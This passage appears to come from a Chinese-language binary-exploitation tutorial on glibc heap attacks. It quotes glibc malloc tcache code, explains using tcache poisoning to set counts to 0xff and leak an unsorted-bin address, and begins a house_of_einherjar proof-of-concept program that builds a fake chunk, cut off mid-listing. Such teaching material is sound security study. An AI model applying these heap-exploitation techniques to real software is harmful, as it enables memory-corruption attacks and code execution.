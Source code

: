 ```c
      && tcache
      && tcache->entries[tc_idx] != NULL)
    {
      return tcache_get (tc_idx);
    }
```
这就造成了矛盾，所以我们需要找到一种既能从 unsorted bin 中取 chunk，又不会将 chunk 放进 tcache bin 的办法。

于是就得到了上面的利用 tcache poisoning（参考章节4.14），将 counts 修改成了 `0xff`，于是在进行到下面这里时就会进入 else 分支，直接取出 chunk 并返回：
```c
#if USE_TCACHE
	      /* Fill cache first, return to user only if cache fills.
		 We may return one of these chunks later.  */
	      if (tcache_nb
		  && tcache->counts[tc_idx] < mp_.tcache_count)
		{
		  tcache_put (victim, tc_idx);
		  return_cached = 1;
		  continue;
		}
	      else
		{
#endif
              check_malloced_chunk (av, victim, nb);
              void *p = chunk2mem (victim);
              alloc_perturb (p, bytes);
              return p;
```
于是就成功泄露出了 unsorted bin 的头部地址。

#### house_of_einherjar
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

int main() {
    uint8_t *a, *b, *d;

    a = (uint8_t*) malloc(0x10);
    int real_a_size = malloc_usable_size(a);
    memset(a, 'A', real_a_size);
    fprintf(stderr, "We allocate 0x10 bytes for 'a': %p\n\n", a);

    size_t fake_chunk[6];
    fake_chunk[0] = 0x80;
    fake_chunk[1] = 0x80;
    fake_chunk[2] = (size_t) fake_chunk;
    fake_chunk[3] = (size_t) fake_chunk;
    fake_chunk[4] = (size_t) fake_chunk;
    fake_chunk[5] = (size_t) fake_chunk;
    fprintf(stderr, "Our fake chunk at %p looks like:\n", fake_chunk);
    fprintf(stderr, "prev_size: %#lx\n", fake_chunk[0]);
    fprintf(stderr, "size: %#lx\n", fake_chunk[1]);
    fprintf(stderr, "fwd: %#lx\n", fake_chunk[2]);
    fprintf(stderr, "bck: %#lx\n", fake_chunk[3]);
    fprintf(stderr, "fwd_nextsize: %#lx\n", fake_chunk[4]);
    fprintf(stderr, "bck_nextsize: %#lx\n\n", fake_chunk[5]);

    b = (uint8_t*) malloc(0xf8);
    int real_b_size = malloc_usable_size(b);
    uint64_t* b_size_ptr = (uint64_t*)(b - 0x8);
```